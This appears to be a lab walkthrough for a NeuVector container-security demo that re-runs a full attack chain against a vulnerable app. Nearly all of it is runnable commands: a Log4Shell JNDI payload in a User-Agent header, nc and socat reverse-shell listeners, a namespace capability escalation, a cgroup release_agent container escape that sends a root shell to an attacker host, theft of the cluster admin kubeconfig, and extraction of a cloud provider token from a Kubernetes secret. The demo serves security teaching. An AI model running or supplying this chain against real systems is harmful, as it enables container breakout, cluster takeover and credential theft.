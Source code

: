 # Run attack again


Ensure, that you have a fresh shell on both attacker01 and attacker02. Cancel running processes with +C.

Then open nc on **attacker terminal 1**

```
sudo nc -lvnp 443
```

And socat on **attacker terminal 2**

```socat file:`tty`,raw,echo=0 tcp-listen:4445```

We are going to run the attack again, to see how NeuVector behaves.

Execute the request to trigger the attack:

## Run the following commands on the victim VM.

```curl http://sample-app.default.${PUBLIC_IP}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${ATTACKER_PUBLIC_IP}:1389/a}'
```

The **attacker VM** now received a remote shell from the container.

## Run the following commands on the first attacker VM terminal.**

We can list the container filesystem

```ls -la```

or the running processes

```ps auxf```

Let's try to install kubectl into the container

```
curl -LO --insecure "https://dl.k8s.io/release/$(curl -L -s --insecure https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

And access the Kubernetes API. This should create an error, because the Pod's ServiceAccount does not have any permissions to access the Kubernetes API:

```kubectl get pods```

Let's try something else and list the Linux capabilities of the container

```capsh --print```

Not that our container does not have `cap_sys_admin` capabilities.

Let's try to change this by exploiting a Kernel vulnerability:

```
unshare -UrmC bash
capsh --print
```

Now that we have `cap_sys_admin` capabilities. We can try to exploit another Kernel bug to break out of the container and create a second remote shell from the host system to the attacker02 VM.

Create a new RDMA cgroup

```mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x```

Enables cgroup notifications on release of the "x" cgroup

```echo 1 > /tmp/cgrp/x/notify_on_release```

Get the path of the OverlayFS mount for our container

```host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab````

Set the release agent to execute `/{overlay_fs_host_path}/cmd` on the host (`/cmd` inside of the container) when the cgroup is released

```echo "$host_path/cmd" > /tmp/cgrp/release_agent```

Create the command, which will run socat and create a remote shell to the second terminal on the **attacker VM**

```
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:${vminfo:attacker02:public_ip}:4445" >> /cmd
chmod a+x /cmd
```

Run `echo` in the cgroup, which will directly exit and trigger the release agent cmd (execute `/{overlay_fs_host_path}/cmd`):

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now we got a remote shell on the 2nd attacker terminal  where we are root directly on the victim host

## Run the following commands on the 2nd attacker terminal

```
whoami
docker ps
```

Install kubectl

```docker cp kubelet:/usr/local/bin/kubectl /usr/bin/```

Get kubeconfig

```
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml

export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```

Now we are admin in the Kubernetes cluster

```kubectl get pods -A```

Get the cloud provider token

```do_token=$(kubectl get secret -n kube-system digitalocean -o jsonpath="{.data.access-token}" | base64 --decode)```

Install doctl

```
cd ~
wget https://github.com/digitalocean/doctl/releases/download/v1.94.0/doctl-1.94.0-linux-amd64.tar.gz
tar xf ~/doctl-1.94.0-linux-amd64.tar.gz
mv ~/doctl /usr/bin
```

Try to log in with the fake token (this will fail):

```doctl auth init -t $do_token```
